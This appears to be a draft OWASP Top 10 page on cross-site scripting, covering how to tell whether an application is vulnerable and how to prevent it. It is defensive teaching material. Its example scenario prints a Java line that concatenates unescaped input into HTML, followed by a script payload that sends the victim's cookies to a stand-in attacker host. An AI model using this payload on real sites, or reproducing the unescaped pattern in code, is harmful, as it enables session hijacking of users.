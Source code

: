 # A3 Cross Site Scripting

| Threat agents | Exploitability | Prevalance | Detectability | Technical Impact | Business Impacts |
| --- | --- | --- | --- | --- | --- |
| App Specific |  EASY | COMMON | AVERAGE | SEVERE | App Specific | 
| TBA | TBA | TBA | TBA. | TBA |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.
Automated tools can find some XSS problems automatically. 

However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

To avoid Server XSS, the preferred option is to properly escape untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into. See the OWASP XSS Prevention Cheat Sheet for details on the required data escaping techniques.

To avoid Client XSS, the preferred option is to avoid passing untrusted data to JavaScript and other browser APIs that can generate active content. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP DOM based XSS Prevention Cheat Sheet.

For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
Use [Content Security Policy](https://www.owasp.org/index.php/Content_Security_Policy) (CSP) to mitigate the impact of potential XSS across your entire site.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker modifies the ‘CC’ parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any  automated CSRF defense the application might employ. See 2017-A8 for info on CSRF.

## References

OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
 OWASP Types of Cross-Site Scripting
 OWASP XSS Prevention Cheat Sheet
 OWASP DOM based XSS Prevention Cheat Sheet
 OWASP XSS Filter Evasion Cheat Sheet
External
 CWE Entry 79 on Cross-Site Scripting
